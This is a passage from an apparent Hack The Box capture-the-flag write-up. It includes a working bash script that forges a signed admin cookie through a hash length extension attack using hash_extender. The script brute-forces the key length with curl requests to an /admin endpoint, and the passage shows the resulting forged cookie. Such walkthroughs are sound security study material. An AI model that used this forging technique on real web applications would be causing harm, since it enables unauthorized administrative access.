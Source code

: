 ```bash

DATA=$(cut -d'.' -f1 <<<$COOKIE | base64 -d)
SIGN=$(cut -d'.' -f2 <<<$COOKIE | base64 -d | xxd -p | tr -d '\n')

SECRET=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
APPEND=";username=admin;secret=${SECRET};"

for LEN in $(seq 8 15); do
    HASH=$(./hash_extender -d $DATA \
                           -a $APPEND \
                           -s $SIGN \
                           -l $LEN)

    NEWSIG=$(sed '3!d' <<<$HASH \
             | cut -d':' -f2 \
             | sed 's/^ //' \
             | xxd -p -r | base64 -w0)

    NEWSTR=$(sed '4!d' <<<$HASH \
             | cut -d':' -f2 \
             | sed 's/^ //' \
             | xxd -p -r \
             | base64 -w0)

    CODE=$(curl -s \
                -H "Cookie: auth=${NEWSTR}.${NEWSIG}" \
                -o /dev/null \
                -w %{http_code} \
                http://$HOST:$PORT/admin)

    if [ $CODE -eq 200 ]; then
        echo auth=${NEWSTR}.${NEWSIG}
        break
    fi
done
```

Time to test it out.

```
# ./get_cookie.sh
auth=dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMQO3VzZXJuYW1lPWFkbWluO3NlY3JldD1mMWZjMTIwMTBjMDk0MDE2ZGVmNzkxZTE0MzVkZGZkY2FlY2NmODI1MGUzNjYzMGMwYmM5MzI4NWMyOTcxMTA1Ow==.QjB4SL+mnsbrBBudsI8Jan61l7I1l3qMY/0uA0UJXCk=
```

Replace the browser's cookie with the output above.

{% include image.html image_alt="ab33f96d.png" image_src="/d6c24de1-704b-4907-af66-242191337928/ab33f96d.png" %}

Sweet.


[1]: https://www.hackthebox.eu/home/machines/profile/261
[2]: https://www.hackthebox.eu/home/users/profile/19014
[3]: https://www.hackthebox.eu/